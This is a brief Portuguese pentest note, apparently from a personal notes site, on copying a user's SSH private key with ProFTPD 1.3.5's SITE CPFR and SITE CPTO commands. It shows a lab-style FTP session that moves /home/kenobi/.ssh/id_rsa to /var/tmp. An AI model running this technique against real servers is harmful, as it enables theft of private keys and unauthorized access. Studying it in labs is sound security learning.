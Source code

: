 ```yaml
---
{"dg-publish":true,"permalink":"/pentest/priv-escalation/movendo-uma-chave-privada-para-um-outro-local-usando-cpfr-e-cpto/","noteIcon":""}
---
```


## Movendo uma chave privada para um outro local usando CPFR e CPTO

```shell
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.125.248]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful

```